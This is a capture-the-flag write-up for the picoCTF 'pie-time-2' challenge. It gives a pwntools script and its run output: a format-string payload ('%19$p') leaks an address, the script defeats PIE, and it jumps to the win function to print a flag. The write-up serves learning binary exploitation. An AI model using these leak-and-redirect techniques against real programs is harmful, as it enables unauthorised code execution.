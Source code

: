 ```python
payload = b"%19$p"
p.sendline(payload)

v = p.recvline().strip()
main_address = int(v, 16) - 0x41
print(f"Main memory address: {hex(main_address)}")

win_address = main_address - win_offset
print(f"Win memory address: {hex(win_address)}")

p.sendline(hex(win_address).encode())


p.interactive()
```


This script first calculate offset using the symbol address of main and win which are hardcoded in binary.

Symbol address is the offset of a function or variable inside the binary file.
Runtime address is the actual memory address where it's loaded during execution, calculated as base address + symbol offset (important when PIE is enabled).
When PIE is disabled both are same

Then it uses payload `%19$p` for name input to print the address that we previously got as `0x558dff422441`, then we'll calculate address of main by subtracting 0x41 from it.
after that we'll subtract our offset from address of main to get the win address.

and thus pass that win address for 2nd input value to get win executed and hence the flag will be printed.

```bash
$ python sol.py
[*] '/mnt/d/work/picoctf/pie-time-2/vuln'
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
Win offset:  0x96
[+] Starting local process './vuln': pid 5402
b'0x55702d409441'
Main memory address: 0x55702d409400
Win memory address: 0x55702d40936a
[*] Switching to interactive mode
 enter the address to jump to, ex => 0x12345: You won!
flag{fake_flag}
[*] Got EOF while reading in interactive
$
```

Wow!!! we got the flag in our local environment successfully, in similar way we can do it on remote server by replacing the HOST and PORT with host and port of instance you started.
